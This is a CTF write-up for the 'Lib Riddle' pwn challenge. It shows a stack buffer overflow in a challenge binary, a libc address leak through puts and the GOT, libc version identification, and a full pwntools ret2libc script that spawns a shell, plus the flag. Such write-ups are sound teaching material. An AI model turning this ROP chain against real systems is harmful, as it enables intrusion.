







# Lib Riddle 
Solved by **[CapangJabba](https://www.linkedin.com/in/gnapaC/)**

Link to his blog: [https://bro-capang.vercel.app/](https://bro-capang.vercel.app/)

## Question
Welcome to Lib-Riddle, where the library holds a secret deep inside its stacks. In this hilarious and intriguing challenge, you'll sift through piles of books and quirky clues to uncover the hidden mystery. Can you crack the code and reveal the library's best-kept secret? Dive in and let the quest for knowledge begin!


# Overview

This security challenge focuses on exploiting a buffer overflow vulnerability within a provided program file. Using knowledge on Linux calling conventions and Return Oriented Programming (ROP) to achieve the exploit. The ultimate goal is to perform a Ret-2-libC attack without access to the exact LibC library file used by the program.


# Initial Analysis

In this challenge we were given one file. `challenge` file

## File Analysis

The first two things to do 

1. run `file` command to know what type of file it is

```bash
challenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=57d4054863be1a291a2f3a183a90555f0353d283, for GNU/Linux 3.2.0, not stripped
```

2. run `checksec` command to know the security mitigations enabled in this program

```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

To summarize the output:-

1. From the `file` command output, program is not stripped and this is a 64-bit executable
2. From the `checksec` command output we see that 
	1. No stack canary, buffer overflow can be done easily
	2. No PIE which means the offset of the functions are the same
	3. NX enabled means cannot executed shellcode on the stack

## Program Execution Analysis

The best way to understand the program execution is by running and testing different inputs.



From the above picture, 3 types of inputs are tested

1. Normal expected input, to see hows the program's flow
	1. The program will take our input and output it back
2. Since there is a reflected output from our input, time to test for format specifier vulnerability
	1. sending out `%p` to expect any hex numbers being output but since `%p` is being throw back means no format specifier vulnerability
3. Test out if there is any input length check
	1. From this test, buffer overflow occur and it can be seen that maybe there is no input length validation
## Analysis in Ghidra

Initially when decompiled the program in ghidra, some of the functions arent named properly. FOr the sake of the length of this writeup, most of the changing variable/function names in ghidra were done outside this writeup. In ghidra, there is no other interesting function other than the `main` function. This is what `main` function looks like in ghidra.



In this output, the `input_buffer` variable is set into 16 bytes long. However the `read` functions will read up to 256 bytes into this variable causing buffer overflow. 

# Payload Crafting

From the initial analysis, it can be seen that there is no 'target' functions to execute 'ret-2-win' attack. There is no stack canary to bypass. And to execute 'ret-2-libc' attack, it is required to know which version of glibc the program uses on the deployed server.

## Leaking LibC Addresses

Before the process of leaking LibC address, first need to know the offsets until reaches the return address on the stack. To achieve this, load the program in `gdb` and in my case I will be using `pwndbg` plugin. Use command `cyclic [number]` to generate a cyclic pattern as input to figure out the offsets until reaches return address.

```python
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```



SIGSEV occured. The offsets wanted can be found on the `pwndbg` screen output. This is what it looks like:-

```python
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401203 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────
 RAX  0x0
*RBX  0x401210 (__libc_csu_init) ◂— endbr64 
*RCX  0x7ffff7ee3297 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x0
*RDI  0x7ffff7fc37e0 ◂— 0x0
*RSI  0x7ffff7fc2723 (_IO_2_1_stdout_+131) ◂— 0xfc37e0000000000a /* '\n' */
*R8   0x66
*R9   0x7ffff7fe0d60 ◂— endbr64 
*R10  0x3fe52e ◂— 0x6474730064616572 /* 'read' */
*R11  0x246
*R12  0x401090 (_start) ◂— endbr64 
*R13  0x7fffffffddc0 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x6161616161616163 ('caaaaaaa')
*RSP  0x7fffffffdcd8 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
*RIP  0x401203 (main+141) ◂— ret 
─────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────
 ► 0x401203 <main+141>    ret    <0x6161616161616164>


───────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdcd8 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
01:0008│     0x7fffffffdce0 ◂— 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
02:0010│     0x7fffffffdce8 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
03:0018│     0x7fffffffdcf0 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
04:0020│     0x7fffffffdcf8 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
05:0028│     0x7fffffffdd00 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
06:0030│     0x7fffffffdd08 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa\n'
07:0038│     0x7fffffffdd10 ◂— 'kaaaaaaalaaaaaaamaaa\n'
─────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────
 ► 0         0x401203 main+141
   1 0x6161616161616164
   2 0x6161616161616165
   3 0x6161616161616166
   4 0x6161616161616167
   5 0x6161616161616168
   6 0x6161616161616169
   7 0x616161616161616a
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>
```

If look properly at `DISASM / x86-64 / set emulate on` terminal, output `0x401203 <main+141>    ret    <0x6161616161616164>` can be seen. This means that the program trying to return to address `0x6161616161616164` which if we decode the hex it will be `aaaaaaad`. Using the command `cyclic -l [pattern]`, we just use the value `0x6161616161616164` to find out at which offset this pattern starts so we can append it with out target return address

```python
pwndbg> cyclic -l 0x6161616161616164
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```

Note: To better understand the further sections, it is advisable to understand what GOT and PLT is. This is a great video by LiveOverflow explaining GOT and PLT. https://www.youtube.com/watch?v=kUk5pw4w0h4

So we found it. It takes 24 bytes of characters till the input reached the RIP or the return address. The strategy for leaking the LibC runtime address are :-

1. Call `puts` function
2. Use GOT value as the argument
3. The runtime value of the GOT will be output

This is the payload for it

```python
ret = 0x000000000040101a # find using ROPgadget
pop_rdi = p64(0x0000000000401273) # find using ROPgadget
plt_puts = p64(elf.plt['puts'])
got_read = p64(elf.got['read'])
got_puts = p64(elf.got['puts'])
payload = b'A'*24
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_read + plt_puts
payload += p64(elf.sym['main'])
```

In summary, this payload is designed to leak the runtime address of the `puts` function and `read` functon by calling `puts(got_puts)` and `puts(got_read)`. This address can then be used to calculate the addresses of other LibC addresses such as the `system` function.

Leaking the address, we want to extract the leaked values. This can be done by try and error, the code snippet below is how I extract the leaked informations.

```python
io.sendline(payload)
io.recvline()
io.recvline()
leak1 = unpack(io.recv(6).ljust(8,b'\x00'))
io.recvline()
leak2 = unpack(io.recv(6).ljust(8,b'\x00'))
```

Now we want to execute this payload on the Deployed Machine provided by the organiser. This is because we want to leak the libc addresses of their machine. Our local machine currently uses our own glibc. Executing this program will give us this output:-



glibc functions will have their addresses randomized due to ASLR. However, the last 3 digits of the function will stay the same. Because of this, we can use a libc database search to find out which glibc does the deployed machine uses. https://libc.rip/ is one of the libc database search.



Searching in the DB gave us 3 results, however these three versions of glibc has the same offsets/address.



So just take one of it and use it to proceed for the shell dropping phase. After downloading one of the glibc, we need to patch the program so it will use the correct glibc and not the default one in our machine. To achieve this just use `pwninit` https://github.com/io12/pwninit and run the command:-

```bash
pwninit --binary challenge --libc libc6_2.31-0ubuntu9.14_amd64.so
```

Before Patching:-
```bash
$ ldd challenge
	linux-vdso.so.1 (0x00007ffdaf9a8000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb3228a2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fb322aa2000)

```

After the patch:-

```bash
ldd challenge_patched 
	linux-vdso.so.1 (0x00007ffc6f49d000)
	libc.so.6 => ./libc.so.6 (0x00007ffbf52dc000) # the program uses the glibc we found
	./ld-2.31.so => /lib64/ld-linux-x86-64.so.2 (0x00007ffbf54d0000)
```

## Dropping Shell

The glibc version same as the deployed CTF machine has been gained and patched, it is now time to drop a shell in the program. First the libc base address is needed. But since the `puts` function already been leaked, all that is left is just mathematics

LibC Base Address = Leaked Puts Address - Puts Offsets in LibC 

```python
libc.address = leaked_puts - libc.sym['puts']
```

Now the base address of LibC has been gained. Every information needed for the Ret-2-LibC attack has been acquired. The payload will be

1. Padding up RIP
2. pop rdi; ret gadget
3. 'binsh' string location appended
4. libC system address

steps 2-4 for the payload can be easily done with `pwntools` ROP chain function. After send the payload. The code implementation as follows:-

```python
libc.address = leaked_puts - libc.sym['puts']
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*24

payload += rop.chain()
io.sendline(payload)
io.interactive()
```

### Execution



Congratulations! The Flag has been Captured!
### Full Script

```python
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./challenge_patched", )
elf = context.binary = ELF("./challenge", checksec=False)
context.log_level = 'info'

libc = ELF('./libc6_2.31-0ubuntu9.14_amd64.so')
ret = 0x000000000040101a
pop_rdi = p64(0x0000000000401273)
plt_puts = p64(elf.plt['puts'])
got_read = p64(elf.got['read'])
got_puts = p64(elf.got['puts'])
offset = 24

io.recvuntil(b'name?\n')
payload = b'A'*24
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_read + plt_puts
payload += p64(elf.sym['main'])
io.sendline(payload)
io.recvline()
io.recvline()
leaked_puts = unpack(io.recv(6).ljust(8,b'\x00'))
io.recvline()
leaked_read = unpack(io.recv(6).ljust(8,b'\x00'))

print(f"leaked_puts: {hex(leaked_puts)}")
print(f"leaked_read: {hex(leaked_read)}")

libc.address = leaked_puts - libc.sym['puts']
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*24

payload += rop.chain()

io.sendline(payload)

io.interactive()
```


### Flag
`OSCTF{l1br4ry_m4de_0f_5y5call5}`
